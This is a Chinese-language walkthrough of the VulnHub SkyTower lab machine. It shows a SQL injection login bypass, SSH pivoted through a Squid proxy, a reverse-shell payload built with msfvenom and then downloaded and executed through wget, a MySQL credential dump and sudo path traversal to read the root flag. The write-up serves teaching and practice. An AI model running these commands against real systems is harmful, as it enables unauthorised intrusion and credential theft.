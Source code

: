 # SkyTower: 1

https://www.vulnhub.com/entry/skytower-1,96/

difficulty: intermediate to advanced

Finish Date：2024-4-15

## IP

192.168.10.163

## Scan

Open Port -> 22,80,3128

```
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/3.1.20
```

ssh 暂不能访问，看看 80 web 上有什么，显示的是一个登陆框，输入一个单引号，显示 mysql 错误，存在 sql 注入，但是对 =、or、and 等关键字进行了过滤，根据网站上的提示自动化工具可能不起作用，没有用 sqlmap 进行爆破。使用 https://github.com/payloadbox/sql-injection-payload-list?tab=readme-ov-file 中的 SQL Injection Auth Bypass Payloads ，在 BP 中对 username 和 passwd 进行相同的设置，最终绕过了登陆，得到了如下信息，根据提示是 ssh 用户凭据(输入 '|1# 就可以绕过)：

```
Username: john
Password: hereisjohn
```

但是尝试登陆 ssh 时，发现不能登陆，nmap 扫描到 22 端口 filtered 状态；另一个开放的端口就是 squid 的 3128，搜索相关资料了解到，squid 能够充当网关进行转发，那么能不能这个 22 端口需要通过 squid 进行端口转发才能访问，使用 proxychains 进行转发。

proxytunnel 也 OK ：

```
proxytunnel -p 192.168.10.163:3128 -d 127.0.0.1:22 -a 5555
ssh sara@127.0.0.1 -p 5555 "pwd"
```

在 /etc/proxychains4.conf 中最后添加：http 192.168.10.163 3128，然后进行登陆：proxychains4 ssh john@192.168.10.163 输入密码后，发现连接又被断开了，应该系统进行了某些设置。

想起来 ssh 在进行连接时，连接命令中可以直接跟系统的操作命令，让我们进行尝试 proxychains4 ssh john@192.168.10.163 'pwd' 执行后，打印了当前路径 /home/john，那么我们就可以执行 shell 反弹命令，连接到我们的 kali 上：

kali 上执行：

```
nc -lvnp 8888

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.10.3 LPORT=8888 -f elf -o re.elf
python3 -m http.server 7070
```

连接目标机器的命令为：

```
proxychains4 ssh john@192.168.10.163 'wget http://192.168.10.3:7070/re.elf&&chmod +x ./re.elf&&./re.elf'
```

最终，在我们的 kali 上得到了 meterpreter。

先看看为什么用户登陆进去后，就被断开？查看 home 目录下，看到有.bashrc 文件，查看其内容，这里发现了退出的原因（最后三行）：

```
echo
echo  "Funds have been withdrawn"
exit
```

把最后这个 exit 删除，ssh 登陆时就不会退出了：head -n -1 .bashrc > .bashrc

wget 上传 linpeas 进行系统枚举，没找到有用的信息。回想起前面登陆窗口提示的 mysql 错误，去 mysql 数据库中看看有什么有价值的信息，cat /var/www/login.php 找到登陆页面的源代码：

```
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');

同时看到了代码中的过滤字段：
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
```

使用 mysql 命令直接查询数据：

```
mysql --user=root --password=root -e "SELECT * FROM SkyTech.login"

id	email	              password
1	john@skytech.com	  hereisjohn
2	sara@skytech.com	  ihatethisjob
3	william@skytech.com	  senseable
```

这三个用户正好跟/home 中的三个用户名一致 john、sara、william，那么后面的密码很有可能就是 ssh 登陆的密码，尝试登陆 sara、william，还是的用 proxychains + 反弹 shell 命令进行登陆。

sara 登陆后，sudo -l 发现了一些重要的提示：

```
(root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```

## flag

直接用上面的命令目录穿越：

```
$ sudo /bin/ls /accounts/../root
flag.txt

$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
